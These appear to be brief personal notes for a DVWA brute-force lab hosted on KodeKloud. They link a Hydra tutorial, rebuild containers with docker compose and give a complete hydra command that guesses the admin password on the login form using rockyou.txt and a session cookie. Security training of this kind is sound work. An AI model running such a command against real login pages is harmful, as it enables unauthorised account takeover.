 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

Replace DD API KEY

docker compose up -d --force-recreate --no-deps --build

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

hydra -f -S 4280-port-c9ca66e998614364.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie:security=low; PHPSESSID=752d8f869d751bceb05b112632080b5b" -l admin -P rockyou.txt